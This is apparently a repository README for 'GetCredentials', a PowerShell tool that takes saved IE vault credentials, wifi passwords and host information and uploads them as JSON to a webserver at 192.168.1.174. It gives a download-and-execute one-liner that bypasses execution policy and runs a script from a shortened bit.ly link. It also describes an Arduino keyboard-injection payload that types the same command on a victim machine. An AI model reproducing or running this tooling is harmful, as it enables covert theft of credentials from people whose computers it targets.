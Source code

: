 # GetCredentials
Usage: powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘https://bit.ly/2El9Fyw’)"
Will get wifi credentials

.DESCRIPTION
Performs the following task
    - Get credentials from IE vault
    - Get saved wifi passwords
    - Get host information
    - Write to file to C:\temp\ (if folder exsists)
    - Upload with json to webserver "http://192.168.1.174" by default 
    
 .PARAMETERS
    -output
        Enter output path
        Example: ./GetCredentials.ps1 -output C:\windows\temp\out
    -url
        Enter url where the data will be sent as a json request
        Example: ./GetCredentials.ps1 -url http://192.168.1.174/data

Keyboard_payload.ino works for Arduino leonard with swedish keyboard
Will run IEX (New-Object Net.WebClient).DownloadString("https://bit.ly/2El9Fyw")

#Todo
Figure out how to pass parameters while using IEX to be able to modify -output and -url parameter
